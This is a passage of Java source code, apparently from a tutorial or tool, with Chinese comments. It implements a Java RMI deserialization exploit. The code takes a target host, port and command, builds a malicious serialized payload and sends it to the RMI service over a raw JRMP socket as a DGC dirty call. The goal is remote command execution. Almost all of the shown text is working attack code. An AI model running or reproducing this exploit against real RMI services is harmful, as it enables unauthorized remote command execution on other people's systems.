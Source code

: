 ```java
      }

      // 远程RMI服务IP
      final String host = args[0];

      // 远程RMI服务端口
      final int port = Integer.parseInt(args[1]);

      // 需要执行的系统命令
      final String command = args[2];

      // Socket连接对象
      Socket socket = null;

      // Socket输出流
      OutputStream out = null;

      try {
         // 创建恶意的Payload对象
         Object payloadObject = RMIExploit.genPayload(command);

         // 建立和远程RMI服务的Socket连接
         socket = new Socket(host, port);
         socket.setKeepAlive(true);
         socket.setTcpNoDelay(true);

         // 获取Socket的输出流对象
         out = socket.getOutputStream();

         // 将Socket的输出流转换成DataOutputStream对象
         DataOutputStream dos = new DataOutputStream(out);

         // 创建MarshalOutputStream对象
         ObjectOutputStream baos = new MarshalOutputStream(dos);

         // 向远程RMI服务端Socket写入RMI协议并通过JRMP传输Payload序列化对象
         dos.writeInt(TransportConstants.Magic);// 魔数
         dos.writeShort(TransportConstants.Version);// 版本
         dos.writeByte(TransportConstants.SingleOpProtocol);// 协议类型
         dos.write(TransportConstants.Call);// RMI调用指令
         baos.writeLong(2); // DGC
         baos.writeInt(0);
         baos.writeLong(0);
         baos.writeShort(0);
         baos.writeInt(1); // dirty
         baos.writeLong(-669196253586618813L);// 接口Hash值

         // 写入恶意的序列化对象
         baos.writeObject(payloadObject);

         dos.flush();
      } catch (Exception e) {
         e.printStackTrace();
      } finally {
         // 关闭Socket输出流
         if (out != null) {
            out.close();
         }

         // 关闭Socket连接
         if (socket != null) {
            socket.close();
         }
```